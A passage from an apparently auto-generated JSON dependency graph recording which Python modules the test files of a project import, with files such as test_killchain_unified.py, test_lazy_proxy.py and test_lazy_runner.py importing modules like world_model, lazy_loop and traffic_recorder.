"cryptography.hazmat.primitives.kdf.pbkdf2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_killchain_snapshot.py", "target": "modules.world_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_killchain_snapshot.py", "target": "modules.world_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_killchain_snapshot.py", "target": "modules.world_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_killchain_unified.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_killchain_unified.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_killchain_unified.py", "target": "tempfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_killchain_unified.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_killchain_unified.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_killchain_unified.py", "target": "cli.ops_commands"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_killchain_unified.py", "target": "modules.world_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_killchain_unified.py", "target": "modules.world_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_killchain_unified.py", "target": "modules.world_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_killchain_unified.py", "target": "cli.ops_commands"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_killchain_unified.py", "target": "modules.world_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_killchain_unified_v2.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_killchain_unified_v2.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_killchain_unified_v2.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_killchain_unified_v2.py", "target": "tempfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_killchain_unified_v2.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_killchain_unified_v2.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_killchain_unified_v2.py", "target": "modules.killchain"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_killchain_unified_v2.py", "target": "modules.world_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_killchain_unified_v2.py", "target": "modules.world_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_killchain_unified_v2.py", "target": "modules.world_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_killchain_unified_v2.py", "target": "modules.world_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_killchain_unified_v2.py", "target": "modules.world_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_killchain_unified_v2.py", "target": "modules.world_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_killchain_unified_v2.py", "target": "modules.world_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_killchain_unified_v2.py", "target": "modules.world_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_killchain_unified_v2.py", "target": "modules.world_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_killchain_unified_v2.py", "target": "modules.world_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_killchain_unified_v2.py", "target": "modules.world_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_killchain_unified_v2.py", "target": "modules.world_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_killchain_unified_v2.py", "target": "modules.world_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_killchain_unified_v2.py", "target": "modules.world_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_killchain_unified_v2.py", "target": "modules.world_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_killchain_unified_v2.py", "target": "modules.world_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_killchain_unified_v2.py", "target": "modules.world_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_killchain_unified_v2.py", "target": "modules.world_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_killchain_unified_v2.py", "target": "modules.world_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_killchain_unified_v2.py", "target": "modules.world_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_killchain_unified_v2.py", "target": "modules.world_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_killchain_unified_v2.py", "target": "modules.world_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_killchain_unified_v2.py", "target": "modules.world_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_agent.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_agent.py", "target": "types"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_agent.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_agent.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_agent.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_agent.py", "target": "modules"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_agent.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_agent.py", "target": "modules"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_agent.py", "target": "modules"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_agent.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_agent.py", "target": "modules"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_agent.py", "target": "core.config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_agent.py", "target": "modules"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_agent.py", "target": "shutil"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_agent.py", "target": "modules"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_agent.py", "target": "cli.commands.lazyops"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_agent.py", "target": "modules.lazy_agent"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_engine.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_engine.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_engine.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_engine.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_engine.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_engine.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_engine.py", "target": "cli.commands.lazyops"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_evidence.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_evidence.py", "target": "hashlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_evidence.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_evidence.py", "target": "sqlite3"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_evidence.py", "target": "zipfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_evidence.py", "target": "modules.traffic_recorder"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_evidence.py", "target": "modules.traffic_recorder"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_evidence.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_evidence.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_loop.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_loop.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_loop.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_loop.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_loop.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_loop.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_loop.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_loop.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_loop.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_loop.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_loop.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_loop.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_loop.py", "target": "modules.lazy_skills"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_loop.py", "target": "modules.custom_tools"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_loop.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_loop.py", "target": "modules.workspace"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_loop.py", "target": "modules.auto_registry"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_loop.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_loop.py", "target": "modules.selfupdate"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_loop.py", "target": "modules.lazy_bridge"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_loop.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_loop.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_loop.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_loop.py", "target": "smtplib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_loop.py", "target": "urllib.parse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_loop.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_loop.py", "target": "modules.notify"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_loop.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_loop.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_loop.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_loop.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_loop.py", "target": "modules.lazy_bridge"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_loop.py", "target": "ast"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_loop.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_loop.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_loop.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_loop.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_orchestrator.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_orchestrator.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_orchestrator.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_orchestrator.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_orchestrator.py", "target": "asyncio"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_orchestrator.py", "target": "textual.widgets"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_orchestrator.py", "target": "cli.lazy_orchestrator"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_orchestrator.py", "target": "cli.lazy_orchestrator"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_orchestrator.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_orchestrator.py", "target": "asyncio"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_orchestrator.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_orchestrator.py", "target": "cli.lazy_orchestrator"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_orchestrator.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_orchestrator.py", "target": "cli.commands.lazyloop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_orchestrator.py", "target": "core.config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_orchestrator.py", "target": "modules.orchestrator_config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_orchestrator.py", "target": "modules"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_orchestrator.py", "target": "modules"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_orchestrator.py", "target": "modules"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_orchestrator.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_orchestrator.py", "target": "modules"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_orchestrator.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_orchestrator.py", "target": "asyncio"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_orchestrator.py", "target": "cli.lazy_orchestrator"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_orchestrator.py", "target": "modules"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_parity.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_parity.py", "target": "io"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_parity.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_parity.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_parity.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_parity.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_parity.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_parity.py", "target": "rich.console"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_parity.py", "target": "cli.themes"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_parity.py", "target": "cli.toast_bus"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_parity.py", "target": "cli.toast_bus"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_parity.py", "target": "cli.toast_bus"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_parity.py", "target": "cli.toast_bus"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_parity.py", "target": "cli.toast_bus"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_parity.py", "target": "cli.toast_bus"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_parity.py", "target": "cli.toast_bus"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_parity.py", "target": "cli.toast_bus"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_parity.py", "target": "evidence"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_parity.py", "target": "goals"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_parity.py", "target": "goals"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_parity.py", "target": "goals"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_parity.py", "target": "intercept"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_parity.py", "target": "intercept"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_parity.py", "target": "intercept"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_parity.py", "target": "llm_pool"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_parity.py", "target": "llm_pool"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_parity.py", "target": "llm_pool"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_parity.py", "target": "llm_pool"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_parity.py", "target": "planner"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_parity.py", "target": "planner"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_parity.py", "target": "planner"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_parity.py", "target": "traffic_recorder"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_parity.py", "target": "cli.toast_bus"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_proxy.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_proxy.py", "target": "http.client"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_proxy.py", "target": "socket"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_proxy.py", "target": "ssl"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_proxy.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_proxy.py", "target": "http.server"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_proxy.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_proxy.py", "target": "modules.lazy_proxy"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_proxy.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_proxy.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_proxy.py", "target": "cryptography"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_proxy.py", "target": "modules.lazy_proxy"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_proxy.py", "target": "modules.lazy_proxy"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_proxy.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_proxy.py", "target": "modules.lazy_proxy"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_proxy.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_proxy.py", "target": "types"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_proxy.py", "target": "modules.lazy_proxy"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_proxy.py", "target": "modules.traffic_recorder"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_proxy.py", "target": "modules.traffic_recorder"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_proxy.py", "target": "modules.traffic_recorder"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_proxy.py", "target": "modules.traffic_recorder"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_proxy.py", "target": "modules.lazy_proxy"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_proxy.py", "target": "modules.lazy_proxy"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_proxy.py", "target": "modules.traffic_recorder"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_proxy.py", "target": "types"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_proxy.py", "target": "modules.lazy_proxy"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_proxy.py", "target": "modules.traffic_recorder"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_proxy.py", "target": "socket"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_proxy.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_proxy.py", "target": "modules.lazy_proxy"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "ast"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.lazy_runner"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.lazy_runner"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.lazy_runner"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.auto_registry"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "core.terminal_guard"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "builtins"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "core.autonomous"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.lazy_runner"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.lazy_runner"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.auto_registry"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "contextlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "io"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.lazy_runner"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.llm_pool"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.llm_factory"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.llm_factory"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "core.config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "contextlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "io"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.loop_progress"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.lazy_runner"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.lazy_runner"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_lazy_runner.py", "target": "modules.lazy_runner"}, {"confidence": "EXTRACTED", "relation": "imports", "source": 